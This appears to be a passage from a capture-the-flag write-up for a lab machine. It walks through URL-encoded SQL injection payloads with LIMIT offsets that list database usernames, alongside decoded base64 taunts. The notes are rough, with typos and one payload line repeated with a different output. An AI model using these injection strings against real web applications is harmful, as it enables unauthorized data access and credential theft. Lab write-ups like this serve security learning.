 ```
| 10 | GBR-8042 | You are just wasting time now... someone else is getting user.txt                                                              |
| 11 | GBR-8457 | Look... now they've got root.txt and you don't even have user.txt                                                              |
| 12 | GBR-9872 | db information loaded to ticket application for shared db access                                                               |
+----+----------+--------------------------------------------------------------------------------------------------------------------------------+

```

V2hhdCBkaWQgeW91IGV4cGVjdD8

What did you expecd

WW91J3JlIGp1c3QgdHJ5aW5nIHRvbyBoYXJkLi4uIG5vYm9keSBoaWRlcyBhbnl0aGluZyBpbiBiYXNlNjQgYW55bW9yZS4uLiBjJ21vbi4=

You're just trying too hard... nobody hides anything in base64 anymore... c'mon.

union injections

%20 is url space

users/admin'--+- ==== 500 error

users/admin'--%20- ===works

![sqlinjection3-url](https://chickenpwny.github.io/images/oz/sqlinjection3-url.PNG)

'or 1'=1 url encoded looks like this '%20or%201='1

1 is the first user in the database to get the other users we have to go down the table

![sqlinjection3-url2](https://chickenpwny.github.io/images/oz/sqlinjection3-url2.PNG)

go into the user functions 

```
'%20limit%201,1--%20-'
'%20or%201='1'%20limit%202,1--%20-'
```

![sqlinjection3-url3](https://chickenpwny.github.io/images/oz/sqlinjection3-url3.PNG)

changing the row in column one will go down the list

```
'%20or%201='1'%20limit%203,1--%20-'		output 	{"username":"tin.man"}
'%20or%201='1'%20limit%202,1--%20-'		output 		{"username":"wizard.oz"}
'%20or%201='1'%20limit%203,1--%20-'		output 	{"username":"coward.lyon"}
'%20or%201='1'%20limit%204,1--%20-'		output 	{"username":"toto"}
'%20or%201='1'%20limit%205,1--%20-'		output 	{"username":"admin"}
the sixth is null
```

The password should be the seocnd column
